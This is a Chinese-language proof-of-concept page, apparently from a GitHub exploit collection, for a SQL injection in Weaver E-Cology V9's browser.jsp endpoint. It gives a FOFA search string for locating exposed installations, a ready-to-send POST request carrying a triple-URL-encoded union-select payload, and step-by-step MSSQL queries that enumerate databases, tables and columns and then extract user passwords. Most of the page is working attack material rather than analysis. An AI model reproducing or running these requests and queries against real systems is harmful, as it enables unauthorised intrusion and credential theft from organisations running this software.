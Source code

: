 # 泛微OA E-Cology V9 browser.jsp SQL注入漏洞
## 资产收集：
fofa：`app="泛微-协同商务系统"`  
![](./img/E-CologyV9_sql.png)
## POC
漏洞位置：  
POS请求:/mobile/%20/plugin/browser.jsp ，参数：keyword ，exp需要三次url编码，MSSQL数据库  
poc：a' union select 1,''+(SELECT @@VERSION)+'  
查询结果会在响应信息数据的show1字段显示  
```
POST /mobile/%20/plugin/browser.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close
Content-Length: 649

isDis=1&browserTypeId=269&keyword=%2525%2536%2531%2525%2532%2537%2525%2532%2530%2525%2537%2535%2525%2536%2565%2525%2536%2539%2525%2536%2566%2525%2536%2565%2525%2532%2530%2525%2537%2533%2525%2536%2535%2525%2536%2563%2525%2536%2535%2525%2536%2533%2525%2537%2534%2525%2532%2530%2525%2533%2531%2525%2532%2563%2525%2532%2537%2525%2532%2537%2525%2532%2562%2525%2532%2538%2525%2535%2533%2525%2534%2535%2525%2534%2563%2525%2534%2535%2525%2534%2533%2525%2535%2534%2525%2532%2530%2525%2534%2530%2525%2534%2530%2525%2535%2536%2525%2534%2535%2525%2535%2532%2525%2535%2533%2525%2534%2539%2525%2534%2566%2525%2534%2565%2525%2532%2539%2525%2532%2562%2525%2532%2537
```
![](./img/E-CologyV9_sql_poc.png)
## URL三次编码脚本
可使用[python脚本](file/urlEncode3.py)进行三次url编码，命令：`python3 urlEncode3.py`
## MSSQL数据库语法
- 获取用户数据库  
```sql
# 获取第一个用户数据库（mssql有4个自带的数据库，用户创建从5开始，所以是dbid>4）
select top 1 name from master..sysdatabases where dbid>4
select top 1 name from master..sysdatabases where dbid>4 and name<>'[数据库名]'
select top 1 name from master..sysdatabases where dbid>4 and name<>'[数据库名1]' and name<>'[数据库名2]'
以此类推可以获取全部用户数据库名
# 或者一次全部导出所有数据库名为xml字符串
select name from master..sysdatabases for xml path
```
- 获取表名  
```sql
# 获取第一张表
select top 1 name from sysobjects where xtype='u'
select top 1 name from sysobjects where xtype='u' and name<>'[表名]'
select top 1 name from sysobjects where xtype='u' and name<>'[表名1]' and name<>'[表名2]'
以此类推可以获取全部表名（u=表(用户定义类型)）
# 或者一次全部导出所有表名为xml字符串
id=1 and 1=(select name from master..sysobjects for xml path)
```
- 获取表的列名
```sql
# 获取第一列列名
select top 1 name from syscolumns where id=(select id from sysobjects where name='[表名]')
select top 1 name from syscolumns where id=(select id from sysobjects where name='[表名]') and name<>'[列名]'
以此类推
```
- 获取表数据
```sql
# 获取第一个用户名对应的密码
select top 1 [列名] from [表名]
select top 1 [列名] from [表名] where [列名]<>'[具体数据]'
以此类推
# 示例
select top 1 upass from users
select top 1 upass from users where upass<>'123456'
```
指路：https://houkc.github.io/2020/11/29/SQLInjection3/